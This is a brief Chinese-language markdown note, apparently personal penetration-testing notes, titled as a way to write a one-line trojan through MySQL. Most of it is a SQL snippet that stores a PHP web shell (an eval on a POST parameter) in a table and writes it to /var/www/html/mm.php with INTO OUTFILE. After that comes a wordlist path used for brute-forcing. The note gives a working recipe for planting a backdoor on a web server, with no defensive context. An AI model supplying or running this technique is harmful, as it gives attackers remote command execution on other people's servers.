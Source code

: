 ## 通过mysql写入一句话木马
```shell
create table a(cmd1 text not null);

insert into a(cmd1) values('<?php eval($_POST["cmd"]); ?>');

select cmd1 from a into outfile '/var/www/html/mm.php';

drop table a;
```


## 所用字典
- /usr/share/wordlists/amass/all.txt